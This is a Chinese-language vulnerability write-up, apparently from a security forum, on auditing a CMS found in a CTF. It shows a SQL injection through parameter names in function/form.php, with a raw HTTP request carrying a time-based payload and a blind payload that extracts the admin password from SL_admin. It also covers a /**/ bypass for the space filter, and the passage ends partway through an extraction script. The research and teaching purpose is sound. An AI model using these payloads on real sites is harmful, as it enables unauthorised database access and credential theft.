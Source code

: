 0.前言
====

最近参加CTF遇到一个CMS，刚好有时间，对其最新版进行一系列漏洞挖掘。

1.前台SQL注入
=========

首先阅读全局配置相关代码，在function/function.php中对各种输入的内容进行了检查，如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5976ab58364d2fe50b8028200fed4666562dab7a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5976ab58364d2fe50b8028200fed4666562dab7a.png)

所有传参方式都进行了过滤，但只对参数值进行了过滤。而在function/form.php中，直接将参数名带入数据库语句进行执行了，如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d332cf3585b9fd733111122946ce3fe192e6db86.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d332cf3585b9fd733111122946ce3fe192e6db86.png)

因此构成注入。

```php
POST //function/form.php?action=input HTTP/1.1
Host: 10.211.55.10:8081
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 14
Content-Type: application/x-www-form-urlencoded

1-sleep(5)=xxx
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d0bf749292ef02705379c1265f16f102179bac82.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d0bf749292ef02705379c1265f16f102179bac82.png)

这部分的漏洞分析其实有前辈先挖掘到了，而且分享出来，但也仅做到此步，而我们的目的不止是验证SQL注入的存在，还要考虑其完整利用方式，于是进行尝试注入数据。

因为CMS的数据库表名是一致的，所以我们可以直接构造payload注入数据。

```php
1-if((select(length(A_pwd))from SL_admin)%3d32,sleep(5),1)=xxx
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-35752014379eeb65163054b2c039b48dc05a3452.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-35752014379eeb65163054b2c039b48dc05a3452.png)

现实却是恒真的表达式却没有延迟，一定是哪里错了。这时候最好的排查方法就是监控数据库的执行记录，如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b421b4083213437476899cb2a080ba6bc1f727e0.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b421b4083213437476899cb2a080ba6bc1f727e0.png)

显然我们输入的“空格”被过滤成“下划线”了，那么我们用`/**/`替代即可。从而编写出脚本：

```python
import requests,time

x = [str(x) for x in range(0, 10)]
y = [chr(y) for y in range(97, 123)]
# z = [chr(y) for y in range(65, 90)] # 大写字母
dic = x+y
# function/form.php?action=input
url="http://127.0.0.1/"

""" 注入密码 """

result=''
```